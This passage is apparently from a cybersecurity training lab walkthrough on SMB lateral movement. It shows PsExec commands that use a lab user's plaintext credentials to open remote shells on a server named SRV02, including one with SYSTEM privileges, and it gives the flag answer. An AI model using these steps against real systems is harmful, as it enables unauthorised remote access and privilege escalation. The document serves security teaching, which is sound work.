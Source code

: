Students will proceed to open `PowerShell`, navigate to `C:\Tools\SysInternalsSuite`, and use `PsExec` to establish a session on SRV02:

Code: powershell

```powershell
cd C:\Tools\SysInternalsSuite
.\PsExec.exe \\SRV02 -i -u INLANEFREIGHT\helen -p RedRiot88 cmd
```

```powershell-session
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\helen> cd C:\Tools\SysInternalsSuite
PS C:\Tools\SysInternalsSuite> .\PsExec.exe \\SRV02 -i -u INLANEFREIGHT\helen -p RedRiot88 cmd
```

Subsequently, students can proceed to grab the flag located in the `C:\Flags` directory:

Code: powershell

```powershell
type C:\Flags\helensonly.txt
```

```powershell-session
Microsoft Windows [Version 10.0.17763.2628]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>type C:\Flags\helensonly.txt
```

Answer: `SMB_as_user_for_Lateral_Movement`

## Server Message Block (SMB)

### Question 2

#### "Use any tool to get a shell on SRV02 using the service Application Layer Gateway Service (ALG) and read the flag located at C:\Flags\serviceflag.txt:"

Students will reuse the previously spawned target and RDP session(s). They will exit from the previous `PsExec` session and will establish a new one with `SYSTEM` privileges by adding the `-s` parameter:

Code: powershell

```powershell
.\PsExec.exe \\SRV02 -i -s -u INLANEFREIGHT\helen -p RedRiot88 cmd
```

```powershell-session
PS C:\Tools\SysInternalsSuite> .\PsExec.exe \\SRV02 -i -s -u INLANEFREIGHT\helen -p RedRiot88 cmd

PsExec v2.43 - Execute processes remotely
Copyright (C) 2001-2023 Mark Russinovich
Sysinternals - www.sysinternals.com


Microsoft Windows [Version 10.0.17763.2628]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```
